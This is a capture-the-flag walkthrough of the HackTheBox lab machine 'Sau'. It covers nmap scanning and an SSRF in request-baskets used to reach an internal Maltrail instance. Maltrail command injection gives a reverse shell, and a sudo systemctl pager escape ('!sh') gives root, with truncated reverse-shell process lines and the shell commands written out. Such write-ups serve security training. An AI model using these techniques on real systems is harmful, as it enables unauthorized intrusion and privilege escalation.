









# Sau - Easy

Target IP: **10.129.61.50**

## User Flag

We always get our initial Nmap scans in to get a broad idea of the target we're dealing with: ```sudo nmap --open 10.129.61.50 -vvv```

The output shows ports 22 (SSH) and 55555 (unknown) open. The non-standard port 55555 is definitely interesting.

```Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-09 19:45 EDT
Initiating Ping Scan at 19:45
Scanning 10.129.61.50 [4 ports]
Completed Ping Scan at 19:45, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:45
Completed Parallel DNS resolution of 1 host. at 19:45, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 19:45
Scanning 10.129.61.50 [1000 ports]
Discovered open port 22/tcp on 10.129.61.50
Discovered open port 55555/tcp on 10.129.61.50
Completed SYN Stealth Scan at 19:45, 1.24s elapsed (1000 total ports)
Nmap scan report for 10.129.61.50
Host is up, received reset ttl 63 (0.0085s latency).
Scanned at 2026-09-09 19:45:06 EDT for 1s
Not shown: 997 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
55555/tcp open  unknown syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.37 seconds
           Raw packets sent: 1005 (44.196KB) | Rcvd: 1001 (40.092KB)
```

A deeper scan including connect and version flags: ```sudo nmap -sC -sV 10.129.61.50 -vvv```

The output shows a Golang net/http server being hosted on port 55555. Port 80 is being filtered? That is also very interesting.

```
Nmap scan report for 10.129.61.50
Host is up, received reset ttl 63 (0.0072s latency).
Scanned at 2026-09-09 19:47:31 EDT for 28s
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE REASON         VERSION
22/tcp    open     ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDdY38bkvujLwIK0QnFT+VOKT9zjKiPbyHpE+cVhus9r/6I/uqPzLylknIEjMYOVbFbVd8rTGzbmXKJBdRK61WioiPlKjbqvhO/YTnlkIRXm4jxQgs+xB0l9WkQ0CdHoo/Xe3v7TBije+lqjQ2tvhUY1LH8qBmPIywCbUvyvAGvK92wQpk6CIuHnz6IIIvuZdSklB02JzQGlJgeV54kWySeUKa9RoyapbIqruBqB13esE2/5VWyav0Oq5POjQWOWeiXA6yhIlJjl7NzTp/SFNGHVhkUMSVdA7rQJf10XCafS84IMv55DPSZxwVzt8TLsh2ULTpX8FELRVESVBMxV5rMWLplIA5ScIEnEMUR9HImFVH1dzK+E8W20zZp+toLBO1Nz4/Q/9yLhJ4Et+jcjTdI1LMVeo3VZw3Tp7KHTPsIRnr8ml+3O86e0PK+qsFASDNgb3yU61FEDfA0GwPDa5QxLdknId0bsJeHdbmVUW3zax8EvR+pIraJfuibIEQxZyM=
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEFMztyG0X2EUodqQ3reKn1PJNniZ4nfvqlM7XLxvF1OIzOphb7VEz4SCG6nXXNACQafGd6dIM/1Z8tp662Stbk=
|   256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICYYQRfQHc6ZlP/emxzvwNILdPPElXTjMCOGH6iejfmi
80/tcp    filtered http    no-response
55555/tcp open     http    syn-ack ttl 63 Golang net/http server
| http-methods: 
|_  Supported Methods: GET OPTIONS
| http-title: Request Baskets
|_Requested resource was /web
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 09 Sep 2026 23:47:53 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 09 Sep 2026 23:47:38 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 09 Sep 2026 23:47:38 GMT
|     Content-Length: 0
|   OfficeScan: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
```

The obvious next step seems like an investigation of ```http://10.129.61.50:55555/```. We are greeted with this page, and redirected to the ```/web``` directory.



I tried directory enumeration with ffuf through these commands: ```ffuf -u http://10.129.61.50:55555/FUZZ -w directory-list-2.3-medium.txt -t 10``` and ```ffuf -u http://10.129.61.50:55555/web/FUZZ -w directory-list-2.3-small.txt -t 10 -fl 846```

However, nothing useful was returned to us from these enumeration attempts.

Returning back to the website, we can see that it is being powered by request-baskets version 1.2.1. After a search online, I found out that CVE-2023-27163 affected  request-baskets version 1.2.1. This is an SSRF vulnerability affecting the ```forward_url``` parameter of the ```/api/baskets/{name}``` and ```/baskets/{name}``` endpoints. The POST request after pressing the 'Create' button on the webpage was being sent to the same endpoint, ```/api/baskets/{name}```. [This article](https://notes.sjtu.edu.cn/s/MUUhEymt7) elaborates on how to exploit this vulnerability. 

I knew I had to capture the POST request that goes to the endpoint after pressing the 'create' button, but where do we forward to? Back in our scans, port 80 was being filtered out. This was something that was intended to not be accessible by the public, which means that we should try to access it :). Utilizing the SSRF vulnerability, we can make the server request its own port 80 with ```http://127.0.0.1:80/``` and see what is behind the filtered port with our own eyes. I added body parameters to the POST request so that this might be achieved.



The basket 'b' was successfully created, and clicking on the basket on the right-hand side of the UI brings us to ```http://10.129.61.50:55555/web/b```, where it tells us that requests are collected at ```http://10.129.61.50:55555/b```



Navigating to the url gives us an entirely new website, albeit it being pretty ugly. Maltrail v0.53 was being hosted here. We should immediately look for publicly listed vulnerabilities for this.



And what do we know, Maltrail v0.53 is affected by CVE-2025-34073, an unauthenticated command injection and RCE vulnerability concerning the ```username``` parameter of the ```/login``` endpoint. There is a Metasploit module for this, but I used this [PoC](https://github.com/spookier/Maltrail-v0.53-Exploit) instead. I had to make some edits to the script. Since navigating to ```http://10.129.61.50:55555/b/login``` wouldn't properly get to the login endpoint of the Maltrail instance, I removed the concatenated ```/login``` of the script and reconfigured the `b` basket to forward to ```http://127.0.0.1:80/login``` and supplied it as the url instead.





We successfully get a shell back on our listener as the user ```puma```. We can navigate to the user's home directory and get the user flag. Nice!



## Root Flag

The first thing I did is check ```sudo -l``` to see what we can run with sudo. The output shows us that we can run ```/usr/bin/systemctl status trail.service``` as ```root``` without a password, as indicated by the ```(ALL : ALL) NOPASSWD:``` entry.



Before diving in deeper though, let's just upgrade our shell really quick - extra style points. We can use the all-to-familiar ```python3``` oneliner after verifying it is installed on the target machine.

```python3 -c 'import pty; pty.spawn("/bin/bash")'```



A quick search online reveals that if we can run ```systemctl status [service]``` as root, we can simply escape and spawn another shell from the terminal pager. Let's try this by running ```sudo /usr/bin/systemctl status trail.service```, then typing ```!sh``` in the middle of the pager output. 

Doing this, we get our newly spawned shell as ```root```! We can navigate to the ```/root``` directory and get the root flag.

```
puma@sau:/opt/maltrail$ sudo systemctl status trail.service
sudo systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Wed 2026-09-09 23:43:53 UTC; 1h 22min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 879 (python3)
      Tasks: 48 (limit: 4662)
     Memory: 64.3M
     CGroup: /system.slice/trail.service
             ├─ 879 /usr/bin/python3 server.py
             ├─1249 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed p>
             ├─1250 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed p>
             ├─1253 sh
             ├─1254 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1255 /bin/sh
             ├─1263 sudo systemctl status
             ├─1267 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed p>
             ├─1268 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed p>
             ├─1271 sh
             ├─1272 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1273 /bin/sh
             ├─1275 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed p>
             ├─1276 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed p>
lines 1-23
             ├─1279 sh
lines 2-24!sh
!sshh!sh
# whoami
whoami
root
```

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
